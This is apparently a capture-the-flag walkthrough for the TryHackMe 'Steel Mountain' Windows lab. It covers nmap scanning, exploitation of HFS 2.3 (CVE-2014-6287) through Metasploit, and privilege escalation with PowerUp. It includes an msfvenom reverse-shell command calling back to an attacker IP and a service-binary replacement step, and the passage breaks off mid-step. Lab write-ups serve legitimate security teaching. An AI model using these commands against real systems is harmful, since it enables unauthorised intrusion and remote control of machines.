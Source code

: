 Steel Mountain is a THM machine 

![image](https://github.com/user-attachments/assets/c9a4dba0-4117-4d65-9e7f-3f8dd916f518)

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

nmap -sC -sV 10.10.224.110 -oA initial  

* -sC: run default nmap scripts
* -sV: detect service version
* -O: detect OS [not allowed to run on this machine- I got an error]
* -oA: output all formats and store in file initial

We get back the following result showing that below ports are open:

* Port 80: running Microsoft IIS httpd 8.5 HTTP method risky :Trace
* Port 135: msrpc
* Port 139: netbios-ssn
* Port 445:  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
* Port 3389: ssl/ms-wbt-server?
* Port 8080 : open  http               HttpFileServer httpd 2.3 http-server-header: HFS 2.3





![image](https://github.com/user-attachments/assets/66f63413-c1bd-4ba1-9f8d-703c42515757)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

nmap -sC -sV -O -p- -oA full $IP


We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the -sU flag enabled to run a UDP scan.

nmap -sU -O -p- -oA udp $IP


**Enumeration**
I always start off with enumerating HTTP first. In this case both 80 and 8080 are open so we’ll start there.

Ports 80 & 8080

Visit the site on the browser.

![image](https://github.com/user-attachments/assets/12aec968-4a0e-4c18-8c4d-7302df33f566)


![image](https://github.com/user-attachments/assets/6de5a185-9e60-4c41-bc2a-eec9d4a12a2c)

View the source code to see if we can find any other information. We see that the photo on the port 80 is Employee of the month Bill Harper 

![image](https://github.com/user-attachments/assets/9b04f2a8-adab-4d60-bdee-0baaae09a824)

What is the CVE number to exploit this file server?

We know the name of the file version, and that it is running version 2.3. We can therefore use the searchsploit command (or look at exploitdb’s website). I entered the following command:

searchsploit HFS -w

This gave me the following results. Note I used the -w flag to get a link to exploit-db.

![image](https://github.com/user-attachments/assets/98505663-dd1b-4c86-a8b3-56c8941464a9)

Of you look carefully you can see that there are are at least two exploits for version 2.3.x. Let’s try the Remote Command Execution (1) at the following link:

https://www.exploit-db.com/exploits/34668?source=post_page-----90af67ec1af6--------------------------------

Use Metasploit to get an initial shell. What is the user flag?

Startup Metasploit by running msfconsole.

The great thing about Metasploit is that we can search on CVE number. Let’s do this by running:

search 2014–6287
![image](https://github.com/user-attachments/assets/13289ada-5d7e-4f73-a02d-614f25f0dd5b)

![image](https://github.com/user-attachments/assets/1fd2fdb3-c23a-4710-a8e3-a9b7360fdea3)

We can follow this by entering use 0. This select the module.

To see the different options we need to adjust we can run show options.

A lot of this is already set to defaults, so the only options we have to set are RHOSTS, which means the target host ip address, and RPORT. You can set it using set RHOSTS <ip>.

Now all we need to do is enter run or exploit.

We got access to a meterpreter shell:
![image](https://github.com/user-attachments/assets/ad190d50-b6cb-4ced-a24d-e751f2ef0f10)

![image](https://github.com/user-attachments/assets/69d78adf-85f1-4680-b4f2-f09b45d169cb)

Now we need to find the user flag.

We can use the following command to search for all txt files:

search -f *.txt

59 resulsts 
![image](https://github.com/user-attachments/assets/80efaab5-23a8-4251-ab09-b517dc7be423)

We are interested in this file 
![image](https://github.com/user-attachments/assets/15e66b61-c827-42da-bf2d-1b26118fb232)

Now all we need to do is read the file.

Remember too use forward slashes.

![image](https://github.com/user-attachments/assets/a1d99982-61a1-417e-816b-067d6b16d4fe)


**Privilege Escalation**

Now that you have an initial shell on this Windows machine as Bill (enter getuid in the meterpreter shell to see this), we can further enumerate the machine and escalate our privileges to root!

**Questions**
To enumerate this machine, we will use a PowerShell script called PowerUp, whose purpose is to evaluate a Windows machine and determine any abnormalities — “PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.” You can download the script here.

Now you can use the upload command in Metasploit to upload the script. To execute this using Meterpreter, I will type load powershell into Meterpreter. Then I will enter PowerShell by entering powershell_shell:

![image](https://github.com/user-attachments/assets/54f08ec1-58c4-4b47-9f21-e66635573c82)

After doing this you just have to run the PowerUp Powershell script by entering:

![image](https://github.com/user-attachments/assets/6b619afc-6d02-467b-89c3-c0fa9ee2e682)

This gives a long list of abnormalities:

![image](https://github.com/user-attachments/assets/4b9e40d4-2859-40b5-93f0-81f450b620ff)

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, and restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as a Windows executable.

 *msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe%* 

msfvenom -p windows/shell_reverse_tcp LHOST=10.17.38.50 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe


![image](https://github.com/user-attachments/assets/58a0d79a-3d4a-4623-b24c-e43e591b1ddb)
Now we generated a reverse shell with the name ASCService.exe.

We can now leave the Powershell shell, and use the same upload command as before:
![image](https://github.com/user-attachments/assets/cee7565b-04f9-4657-9d46-d6a9387990f7)

No we need to replace the legitimate one. Enter a regular cmd shell from your meterpreter shell by entering: shell.

Before copying, we need to stop the service by entering:
*sc stop AdvancedSystemCareService9*

![image](https://github.com/user-attachments/assets/203402e6-5081-467d-baca-58d37840ffae)

![image](https://github.com/user-attachments/assets/a91cefa8-cedc-441e-af35-2c7ea84e3d82)



Then copy the file to the original location:
